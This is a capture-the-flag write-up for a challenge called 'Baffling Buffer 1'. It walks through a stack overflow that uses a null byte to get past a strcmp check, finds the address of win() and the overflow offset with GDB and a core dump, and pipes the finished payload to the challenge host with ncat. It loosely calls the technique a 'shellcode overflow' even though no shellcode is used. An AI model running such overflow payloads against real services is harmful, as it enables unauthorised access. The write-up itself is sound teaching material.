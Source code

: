 # Baffling Buffer 1 - 225pts
> After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.
<hr>

Looking at the source code, we notice that the flag is in an entirely different function, 'win()'. This means we will have to use a shellcode overflow in order to call that function. If we look at the 'vuln()' function, we notice a 'strcmp' between the buffer and "Sup3rs3cr3tC0de". Per the C docs:

"This function starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached."

We can try to trick the 'strcmp' call by adding a null-terminating character to "Sup3rs3cr3tC0de" and then adding our overflow data. 

First, I simply ran `bb1` with "Sup3rs3cr3tC0de", a null-terminator, and some extra characters to see if it would segfault.

```shell
python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*50)" | ./bb1
```

As I thought, it segfaulted. Thus, we can modify our input to write over the return value and access the 'win()' function. First, we have to find that memory address though. This can be done using GDB.
```shell
$ gdb bb1
(gdb) break main
(gdb) run
(gdb) info address win
>> Symbol "win" is at 0x401172 in a file compiled without debugging.
```

Now, it's a bit of trial and error to find the correct value to overflow. We also need to enable core dumps that way we can check where exactly the program segfaults at.

```shell
$ ulimit -c unlimited
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | ./bb1
>> Access granted!
>> zsh: done                              python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | 
>> zsh: segmentation fault (core dumped)  ./bb1
$ gdb -q -c core -ex quit
>> Core was generated by `./bb1'.
>> Program terminated with signal SIGSEGV, Segmentation fault.
>> #0  0x0000000000400061 in ?? ()
```

From here, we can see that the program terminates at 0x400061. 61 is the ASCII representation of 'a'. So, we have one too many A's being input. All we have to do is change to print 40 a's and then append our address in hex.

```shell
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*40+'\x72\x11\x40')" | ncat host1.metaproblems.com 5151
>> Access granted!
```

And we retrived our flag.
